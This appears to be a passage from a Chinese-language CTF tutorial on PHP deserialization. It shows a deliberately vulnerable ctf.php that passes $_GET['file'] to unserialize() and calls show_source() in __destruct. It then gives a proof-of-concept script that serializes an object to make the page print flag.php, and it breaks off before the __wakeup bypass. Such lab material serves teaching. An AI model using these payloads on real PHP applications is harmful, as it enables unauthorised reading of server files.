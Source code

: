 # 3 反序列化漏洞实例-ctf

浏览器访问

>http://192.168.1.76/ctf/ctf.php

```php
<?php
class xuegod{
    private $file='ctf.php';
    function __destruct(){
        if(!empty($this->file))
        {
            show_source($this->file);
        }
    }
    function __wakeup(){
        $this->file='ctf.php';
    }
}
if(!isset($_GET['file'])){
    show_source('ctf.php');
}
else{
    unserialize($_GET['file']);
}
//flag in flag.php
?>
```

> 这是一个反序列化 `ctf.php` 的文件
>
> 目标：打印 `flag.php`
>
> 方法：利用反序列化漏洞使 `show_source` 打印 `flag.php`
>
> 可以看到页面通过 show_source 打印了 ctf.php 的源码，所以题目一定是要我们做代码审计，反序列化漏洞的两个必要因素，unserialize 参数可控，show_source 危险函数。

思路

>第一：通过 GET 方式传参序列化后的字符串作为 file 变量的值给 ctf.php
>第二：通过我们构造的 file 变量的序列化字符串让 show_source($this->file)最终的执行结果为show_source(flag.php);

根据目标的 php 源码构造序列化 `flag.php` 的 POC

```
[root@CentOS-76 ~]# vim test.php
```

```php
<?php
class xuegod{
    private $file='flag.php';
}
echo serialize(new xuegod());
?>
```
